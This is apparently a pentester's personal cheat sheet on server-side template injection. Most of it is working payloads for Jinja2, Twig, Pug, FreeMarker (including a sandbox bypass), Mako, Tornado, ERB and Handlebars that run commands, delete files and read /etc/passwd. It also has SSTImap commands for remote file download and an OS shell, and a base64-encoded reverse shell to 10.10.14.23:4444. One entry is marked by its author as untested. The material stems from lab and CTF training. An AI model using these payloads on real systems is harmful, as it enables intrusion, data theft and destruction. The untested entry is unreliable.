 #php #nodejs #python
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

1. **Jinja2 (python)/Twig (PHP)** - `{{7*'7'}}`
2. **Jade/Pug** (Node)
	* `#{7 * 7}`
3. Smarty (PHP) - `{'Hello'|upper}`
4. Pug (node)
	* `#{root.process.mainModule.require('child_process').spawnSync('ls', ['-lah']).stdout}`
5. Mako (python)
	* ${7 * 7}
6. handlebars (node)
	* `{{7+7}}`

##### Automation
```bash
git clone https://github.com/vladko312/SSTImap.git

python3 sstimap.py -X POST -u 'http://ssti.thm:8002/mako/' -d 'page='

# Download remote file
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'

# Execute remote command
python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id

# OS shell
python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
```

#### Apache FreeMarker #java 
```marker
<#assign rt = "freemarker.template.utility.Execute"?new()>
${rt("rm -rf /something")}
```
Detect version:
```
${.version}
```
Sandbox bypass (works <= v2.39):
```
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
Do not forget to replace `article` with available entity.

#### Mako #python 
```mako
<%
	import os
	x=os.popen('id').read()
%>
${x}
```
// what the fuck is ${x} ?
// not sure if it works

#### Tornado #python 
```tornado
user.name}}{%25import+os%25}{{os.system('rm+/home/carlos/morale.txt')}}
```

#### Twig
[[SSTI twig]]
```twig
{{['id',""]|sort('passthru')}}

{{ _self }}

{{ "/etc/passwd"|file_excerpt(1,-1) }}

{{ ['id'] | filter('system') }}
```

#### [[ERB]]  #ruby
```ruby
<%= eval('system("whoami")') %>
```
```ruby
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
#### [[jinja]]
```jinja2
{{ config.items() }}

{{ self.__init__.__globals__.__builtins__ }}

{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}

{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output("ls")}}

{{config.__class__.__init__.__globals__['os'].popen('echo${IFS}YmFzaCAtaSA+JiAvZG
V2L3RjcC8xMC4xMC4xNC4yMy80NDQ0IDA+JjE=${IFS}|base64${IFS}-d|bash').read()}}
```


#### handlebars #nodejs 
Exploit:
```handlebars
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```

##### Identification guide
![[identify SSTI.png]]